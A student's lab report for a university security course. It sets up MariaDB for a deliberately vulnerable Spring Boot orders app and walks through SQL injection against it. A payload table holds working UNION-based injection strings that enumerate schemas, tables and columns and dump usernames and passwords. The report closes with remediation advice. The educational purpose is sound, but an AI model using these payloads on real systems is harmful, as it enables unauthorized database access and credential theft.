







<div style="display:flex; flex-direction:column; justify-content:center; align-items:center; min-height:100vh; text-align:center;">
  <h1>Spring Security Configuration</h1>
  <h2>Owen Lindsey</h2>
  <h2>Professor Sluiter, Shad</h2>
  <h2>CST-407</h2>
  <h2>Grand Canyon University</h2>
</div>

# Activity 8 MariaDB Setup Notes

## 1. Start MariaDB ✅

- Launch the MariaDB service locally (Docker, XAMPP, or native install).
- Connect as the admin user with `mariadb -u root -p` to confirm the server is reachable.

| Task            | Command / Details                                        | Purpose                                       |
| --------------- | -------------------------------------------------------- | --------------------------------------------- |
| Start service   | `systemctl start mariadb` _(or Docker/XAMPP equivalent)_ | Ensures the DB listener is running.           |
| Verify login    | `mariadb -u root -p`                                     | Confirms credentials/network.                 |
| Capture version | `SELECT VERSION();`                                      | Documents the environment for the lab report. |

## 2. Import `orders-app1.sql` ✅

- From the project root run:

  ```bash
  mariadb -u root -p < orders-app1.sql
  ```

- This creates the `orders-app` schema with the `orders` and `users` tables plus seed data identical to the lab screenshots.

## 3. Smoke-Test the Schema ✅

Run a few quick checks in the MariaDB shell:

```sql
SHOW DATABASES LIKE 'orders-app';
USE `orders-app`;
SELECT COUNT(*) FROM orders;
SELECT id, login_name FROM users;
```

Confirm the counts match the dump (9 orders, 6 users).

## 4. Spring Boot Datasource Update ✅

Edit `src/main/resources/application.properties` so it matches the MariaDB instance:

```properties
spring.datasource.url=jdbc:mariadb://localhost:3306/orders-app
spring.datasource.driver-class-name=org.mariadb.jdbc.Driver
spring.datasource.username=root
spring.datasource.password=<your password>
spring.jpa.hibernate.ddl-auto=update
spring.jpa.properties.hibernate.dialect=org.hibernate.dialect.MariaDBDialect
```

Adjust the hostname, port, and credentials if your environment differs.

## 5. Maven Dependency ✅

`pom.xml` now uses the MariaDB Java driver:

```xml
<dependency>
    <groupId>org.mariadb.jdbc</groupId>
    <artifactId>mariadb-java-client</artifactId>
    <version>3.3.3</version>
</dependency>
```

No other code changes are required; Spring Data JPA works the same way.

## 6. Run the App ✅

- `./mvnw spring-boot:run` (or run from your IDE).
- Navigate to `http://localhost:8080/orders` and perform the injection exercises exactly as described in the guide. All SQL snippets in the DOCX map directly to the imported schema.

## 7. Troubleshooting Notes

- If the app fails to start, verify the DB service is running and that the schema name includes the hyphen (`orders-app`).
- Grant privileges if you use a non-root user: `GRANT ALL ON`orders-app`.* TO 'orders_user'@'localhost' IDENTIFIED BY 'Secret!23';`.
- To reset the data, rerun `orders-app1.sql` or drop the schema with `DROP DATABASE`orders-app`;` first.

## Screenshot Reference

| #   | Image                                      | Description                             |
| --- | ------------------------------------------ | --------------------------------------- |
| 1   |  | Initial app/structure view.             |
| 2   |  | Database schema import confirmation.    |
| 3   |  | Orders/security lab setup.              |
| 4   |  | UNION injection returning schema names. |
| 5   |  | Table discovery payload results.        |
| 6   |  | Column discovery payload results.       |
| 7   |  | User credential extraction (passwords). |

## SQL Injection Attack Details

SQL injection (SQLi) exploits the fact that the Orders DAO concatenates raw input into `SELECT * FROM orders WHERE notes LIKE '%<term>%';`. By closing the quote, adding a UNION query whose column types match `(id BIGINT, date DATETIME, customerid BIGINT, notes VARCHAR)`, and terminating the remainder with a comment character, every payload below executes as if it were authored by the application:

| Objective                   | Payload Snippet                                                                                                                                                                                                   | Purpose                                                 |
| --------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| Enumerate schemas           | `' UNION SELECT 999, '2024-01-01 00:00:00', 999, CAST(SCHEMA_NAME AS CHAR(255) CHARACTER SET utf8) FROM INFORMATION_SCHEMA.SCHEMATA WHERE 'a' LIKE 'a' #`                                                         | Leaks all schema names despite collation differences.   |
| List tables in `orders-app` | `' UNION SELECT 999, '2024-01-01 00:00:00', 999, CAST(TABLE_NAME AS CHAR(255) CHARACTER SET utf8) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'orders-app' AND 'a' LIKE 'a' #`                            | Confirms the `orders`/`users` tables exist.             |
| Show columns for `users`    | `' UNION SELECT 999, '2024-01-01 00:00:00', 999, CAST(COLUMN_NAME AS CHAR(255) CHARACTER SET utf8) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'orders-app' AND TABLE_NAME = 'users' AND 'a' LIKE 'a' #` | Identifies the `login_name` and `password` columns.     |
| Dump login names            | `' UNION SELECT id, '2024-01-01 00:00:00', id, login_name FROM users WHERE 'a' LIKE 'a' #`                                                                                                                        | Returns usernames in the Notes column.                  |
| Dump passwords              | `' UNION SELECT id, '2024-01-01 00:00:00', id, password FROM users WHERE 'a' LIKE 'a' #`                                                                                                                          | Exposes clear-text/hashed passwords directly to the UI. |

## Summary

In this lab we stood up the vulnerable Spring Boot Orders app on MariaDB, imported the provided schema, and then walked through the full SQL injection kill chain: enumerating schemas, tables, and columns from `INFORMATION_SCHEMA`, crafting UNION payloads that match the target query’s shape, and ultimately exfiltrating sensitive `users` data. The remediation path is straightforward but essential—replace every string-concatenated SQL statement with prepared statements or Spring Data repositories, centralize input validation/sanitization in the service layer, tighten database privileges so the web user can access only what it truly needs, and surface errors through generic messages instead of raw stack traces—ensuring the search box (and every other entry point) can no longer be turned against the application.
